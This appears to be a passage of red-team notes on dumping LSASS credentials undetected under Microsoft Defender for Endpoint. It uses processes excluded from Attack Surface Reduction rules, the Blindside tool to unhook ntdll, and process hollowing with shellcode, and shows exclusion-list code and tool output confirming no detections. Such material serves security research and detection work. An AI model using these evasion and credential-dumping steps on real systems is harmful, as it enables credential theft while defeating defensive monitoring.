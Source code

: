 <a name="process-injection-in-a-asr-excluded-process-using-an-unhooked-ntdll-blindside"></a>
## Process Injection in a ASR excluded process using an Unhooked ntdll - Blindside

Since MDE has major detections around getting a handle to LSASS, the MiniDumpWrite API etc, is there any way to use these and still remain undetected? The answer is yes if you decide to perform execution in the blindspots of MDE. MDE heavily relies on ASR rules for detection. 

To perform a successfull LSASS dmp using the standard MiniDumpWrite API (and by getting a handle to the LSASS process) technique we can chose to perform this execution from an ASR excluded process. We can use ASR .LUA rules to find blindspots in to perform trusted execution. 

Here is the ASR rule for "Blocking Credential Stealing from LSASS": https://github.com/HackingLZ/ExtractedDefender/blob/main/asr/9e6c4e1f-7d60-472f-ba1a-a39ef669e4b2

We can perform execution (using MiniDumpWrite API) in a trusted excluded process such as `mrt.exe` to operate in the blindspots and avoid detection from this ASR rule.

```
GetPathExclusions = function()
  -- function num : 0_2
  local l_3_0 = {}
  l_3_0["%windir%\\system32\\WerFaultSecure.exe"] = 2
  l_3_0["%windir%\\system32\\mrt.exe"] = 2
  [...snip...]
```

[Blindside](https://github.com/CymulateResearch/Blindside/tree/main) works by first spawning a debug process, then creates a breakpoint handler and sets a hardware breakpoint that will force the debugged process to load only a fresh copy of ntdll to memory. This will result in a clean and unhooked ntdll which could then be used to perform process injection using NtAPIs.

Compiling and analysing the POC after we find that there are no detections.

```
PS D:\> .\ThreatCheck.exe -f D:\Work\Blindside.exe
[+] No threat found!
```

Testing the POC against MDE too we find that we have no detections and that ntdll is succesfully unhooked:

```
C:\Users\administrator1\Desktop>.\Blindside.exe
[+] Creating new process in debug mode
[+] Found LdrLoadDllAddress address: 0x00007FFC875DAE00
[+] Setting HWBP on remote process
[+] Breakpoint Hit!
[+] Copying clean ntdll from remote process
[+] Found ntdll base address: 0x00007FFC875A0000
[+] Unhooked
```

Now, using the unhooked ntdll it is possible to add Process Injection functionality.

In this case we use Process Hollowing using a few replaced NtAPIs. We serve our shellcode which is compiled from this blog (Uses standard MiniDumpWriteAPI with and encrypted dump): https://dec0ne.github.io/research/2022-11-14-Undetected-Lsass-Dump-Workflow/ and convert it shellcode using [pe2sh](https://github.com/hasherezade/pe_to_shellcode). 


[+]: Shellcode located at c7160